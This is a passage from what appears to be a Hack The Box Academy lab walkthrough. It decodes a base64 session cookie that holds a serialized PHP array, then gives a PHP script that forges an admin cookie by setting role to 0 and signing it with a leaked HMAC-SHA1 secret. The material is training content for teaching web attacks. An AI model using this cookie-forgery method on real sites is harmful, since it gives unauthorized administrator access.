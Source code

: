 ```shell
echo 'YTozOntzOjI6ImlkIjtzOjE6IjMiO3M6ODoidXNlcm5hbWUiO3M6NDoidGVzdCI7czo0OiJyb2xlIjtzOjE6IjEiO30%3D.b7d257a0d366e69e1316961d3cfa89934abee2e5' | base64 -d
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-qmmsulophr]─[~]
└──╼ [★]$ echo 'YTozOntzOjI6ImlkIjtzOjE6IjMiO3M6ODoidXNlcm5hbWUiO3M6NDoidGVzdCI7czo0OiJyb2xlIjtzOjE6IjEiO30%3D.b7d257a0d366e69e1316961d3cfa89934abee2e5' | base64 -d

a:3:{s:2:"id";s:1:"3";s:8:"username";s:4:"test";s:4:"role";s:1:"1";}base64: invalid input
```

If students attempt to serialize a similar object with the role 0 (i.e., admin) and replace the cookie in the web application, it will fail, because from the exposed HTML comments, the backend most probably uses `HMACS` with the `sha1` algorithm. Therefore, students need create a PHP script that will generate a base64-encoded cookie with the role set to 0 and the HMAC secret appended to it:

Code: php

```php
<?php

$APP_SECRET = "@pp_s3cret!!";

$arr = array('id' => 'test', 'username' => 'test', 'role' => '0');
$ser = serialize($arr);

$hmac = hash_hmac("sha1", $ser, $APP_SECRET);

echo base64_encode($ser) . "." . $hmac;
```

Students can use `cat` to save the PHP script into a file:

Code: shell

```shell
cat << 'EOF' > generateCookie.php 
<?php

$APP_SECRET = "@pp_s3cret!!";

$arr = array('id' => 'test', 'username' => 'test', 'role' => '0');
$ser = serialize($arr);

$hmac = hash_hmac("sha1", $ser, $APP_SECRET);

echo base64_encode($ser) . "." . $hmac;
EOF
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-qmmsulophr]─[~]
└──╼ [★]$ cat << 'EOF' > generateCookie.php 
<?php

$APP_SECRET = "@pp_s3cret!!";

$arr = array('id' => 'test', 'username' => 'test', 'role' => '0');
$ser = serialize($arr);

$hmac = hash_hmac("sha1", $ser, $APP_SECRET);

echo base64_encode($ser) . "." . $hmac;
EOF
```
